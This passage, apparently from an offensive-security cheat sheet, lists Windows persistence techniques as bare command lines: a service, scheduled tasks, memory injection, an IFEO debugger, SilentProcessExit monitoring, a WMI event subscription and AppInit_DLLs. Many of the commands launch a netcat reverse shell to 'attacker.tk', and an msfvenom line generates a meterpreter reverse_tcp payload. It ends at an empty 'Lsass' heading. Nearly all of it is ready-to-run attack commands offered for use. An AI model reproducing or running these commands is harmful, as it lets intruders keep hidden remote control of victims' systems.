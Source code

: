 - Service

    `cmd#> sc create persistence binPath= "nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888" start= auto`<br>
    `cmd#> sc failure persistence reset= 0 actions=restart/60000/restart/60000/restart/60000`<br>
    `cmd#> sc start persistence`<br>

- Tasks

    `cmd#> at 13:37 \temp\nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888`<br>
    `cmd#> schtasks /create /ru SYSTEM /sc MINUTE /MO 1 /tn persistence /tr "c:\temp\nc.exe ‐e c:\windows\system32\cmd.exe attacker.tk 8888"`<br>

- In MEMORY

    `msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999`<br>
    `cmd$> inject_windows.exe PID meter32.bin`<br>

- Debugger

    `cmd#> copy calc.exe _calc.exe`<br>
    `cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C _calc.exe & c:\windows\nc.exe ‐e c:\windows\system32\cmd.exeattacker.tk 8888" /f`

- Gflags

    `cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD/d 512`<br>
    `cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1`<br>
    `cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "nc ‐e \windows\system32\cmd.exe attacker.tk 8888"`

- WMI

    `cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __EventFilterCREATE Name="persistence", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT - FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"`<br>
    `cmd#> wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="persistence", ExecutablePath="C:\users\admin\meter.exe",CommandLineTemplate="C:\users\admin\meter.exe"`<br>
    `cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name="persistence"", Consumer="CommandLineEventConsumer.Name="persistence""`<br>

- AppInit

    `cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f`<br>
    `cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter64.dll" /f`<br>
    `cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f`<br>
    `cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter32.dll" /f`<br>

- Lsass
